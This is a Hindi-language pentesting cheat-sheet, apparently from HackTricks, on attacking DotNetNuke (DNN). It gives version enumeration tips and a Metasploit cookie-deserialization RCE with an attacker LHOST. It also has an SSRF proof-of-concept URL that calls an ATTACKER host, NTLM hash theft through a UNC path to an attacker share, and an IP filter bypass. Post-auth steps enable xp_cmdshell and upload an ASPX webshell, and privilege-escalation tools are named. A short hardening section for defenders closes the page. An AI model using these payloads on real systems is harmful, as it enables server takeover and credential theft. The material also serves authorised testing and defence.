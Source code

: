# DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

यदि आप DNN में **administrator** के रूप में प्रवेश करते हैं, तो **RCE** प्राप्त करना आसान है, हालांकि पिछले कुछ वर्षों में कई *unauthenticated* और *post-auth* तकनीकों को प्रकाशित किया गया है। निम्नलिखित चीट-शीट आक्रामक और रक्षात्मक कार्य के लिए सबसे उपयोगी प्राइमिटिव्स को एकत्र करती है।

---
## संस्करण और वातावरण की गणना

* *X-DNN* HTTP प्रतिक्रिया हेडर की जांच करें - यह आमतौर पर सटीक प्लेटफ़ॉर्म संस्करण का खुलासा करता है।
* स्थापना विज़ार्ड `/Install/Install.aspx?mode=install` में संस्करण लीक करता है (बहुत पुराने इंस्टॉलेशन पर पहुंच योग्य)।
* `/API/PersonaBar/GetStatus` (9.x) निम्न-privilege उपयोगकर्ताओं के लिए `"dnnVersion"` वाला JSON ब्लॉब लौटाता है।
* लाइव इंस्टेंस पर आप जो सामान्य कुकीज़ देखेंगे:
* `.DOTNETNUKE` – ASP.NET फॉर्म्स प्रमाणीकरण टिकट।
* `DNNPersonalization` – XML/serialized उपयोगकर्ता प्रोफ़ाइल डेटा (पुराने संस्करण - नीचे RCE देखें)।

---
## अनधिकृत शोषण

### 1. कुकी डेसिरियलाइजेशन RCE  (CVE-2017-9822 & फॉलो-अप)
*प्रभावित संस्करण ≤ 9.3.0-RC*

`DNNPersonalization` हर अनुरोध पर डेसिरियलाइज किया जाता है जब अंतर्निहित 404 हैंडलर सक्षम होता है। इस प्रकार तैयार XML मनमाने गैजेट श्रृंखलाओं और कोड निष्पादन की ओर ले जा सकता है।
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
मॉड्यूल स्वचालित रूप से पैच किए गए लेकिन अभी भी कमजोर संस्करणों (CVE-2018-15811/15812/18325/18326) के लिए सही पथ चुनता है। शोषण **बिना प्रमाणीकरण** के 7.x–9.1.x पर और 9.2.x+ पर *सत्यापित* निम्न-privilege खाते के साथ काम करता है।

### 2. सर्वर-साइड अनुरोध धोखाधड़ी (CVE-2025-32372)
*प्रभावित संस्करण < 9.13.8  –  पैच अप्रैल 2025 में जारी किया गया*

पुराने `DnnImageHandler` फिक्स का बायपास एक हमलावर को सर्वर को **मनमाने GET अनुरोध** जारी करने के लिए मजबूर करने की अनुमति देता है (सेमी-ब्लाइंड SSRF)। व्यावहारिक प्रभाव:

* आंतरिक पोर्ट स्कैन / क्लाउड तैनाती में मेटाडेटा सेवा खोज।
* उन होस्टों तक पहुंचें जो अन्यथा इंटरनेट से फ़ायरवॉल किए गए हैं।

प्रूफ-ऑफ-कॉन्सेप्ट (`TARGET` और `ATTACKER` को बदलें):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*प्रभावित संस्करण 6.0.0 – 9.x (< 10.0.1)*

विशेष रूप से तैयार की गई सामग्री DNN को **UNC पथ** का उपयोग करके संसाधन लाने का प्रयास करने के लिए मजबूर कर सकती है जैसे `\\attacker\share\img.png`। Windows खुशी-खुशी NTLM बातचीत करेगा, सर्वर-खाता हैश को हमलावर को लीक करेगा। **10.0.1** में अपग्रेड करें या फ़ायरवॉल पर आउटबाउंड SMB को बंद करें।

### 4. IP Filter Bypass  (CVE-2025-52487)
यदि प्रशासक *Host/IP Filters* पर निर्भर करते हैं प्रशासन पोर्टल सुरक्षा के लिए, तो ध्यान दें कि **10.0.1** से पहले के संस्करणों को एक रिवर्स-प्रॉक्सी परिदृश्य में `X-Forwarded-For` को हेरफेर करके बायपास किया जा सकता है।

---
## Post-Authentication to RCE

### Via SQL console
**`Settings → SQL`** के तहत एक अंतर्निहित क्वेरी विंडो साइट डेटाबेस के खिलाफ निष्पादन की अनुमति देती है। Microsoft SQL Server पर आप **`xp_cmdshell`** को सक्षम कर सकते हैं और कमांड उत्पन्न कर सकते हैं:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPX वेबशेल अपलोड के माध्यम से
1. **`Settings → Security → More → More Security Settings`** पर जाएं।
2. **Allowable File Extensions** में `aspx` (या `asp`) जोड़ें और **Save** करें।
3. **`/admin/file-management`** पर जाएं और `shell.aspx` अपलोड करें।
4. इसे **`/Portals/0/shell.aspx`** पर ट्रिगर करें।

---
## Windows पर विशेषाधिकार वृद्धि
एक बार जब कोड निष्पादन **IIS AppPool\<Site>** के रूप में प्राप्त हो जाता है, तो सामान्य Windows विशेषाधिकार-उद्घाटन तकनीकें लागू होती हैं। यदि बॉक्स कमजोर है, तो आप इसका लाभ उठा सकते हैं:

* **PrintSpoofer** / **SpoolFool** का उपयोग *SeImpersonatePrivilege* का दुरुपयोग करने के लिए।
* *Service Accounts* से बचने के लिए **Juicy/Sharp Potatoes**।

---
## हार्डनिंग सिफारिशें (ब्लू टीम)

* कम से कम **9.13.9** (SSRF बायपास को ठीक करता है) या बेहतर **10.0.1** (IP फ़िल्टर और NTLM मुद्दे) में **Upgrade** करें।
* स्थापना के बाद अवशिष्ट **`InstallWizard.aspx*`** फ़ाइलें हटा दें।
* आउटबाउंड SMB (पोर्ट 445/139) ईग्रेस को अक्षम करें।
* DNN के भीतर के बजाय एज प्रॉक्सी पर मजबूत *Host Filters* लागू करें।
* यदि अनुपयोगी हो तो `/API/RemoteContentProxy` तक पहुंच को ब्लॉक करें।

## संदर्भ

* Metasploit `dnn_cookie_deserialization_rce` मॉड्यूल दस्तावेज़ – व्यावहारिक अनधिकृत RCE विवरण (GitHub)।
* GitHub सुरक्षा सलाह GHSA-3f7v-qx94-666m – 2025 SSRF बायपास और पैच जानकारी।
{{#include ../../banners/hacktricks-training.md}}
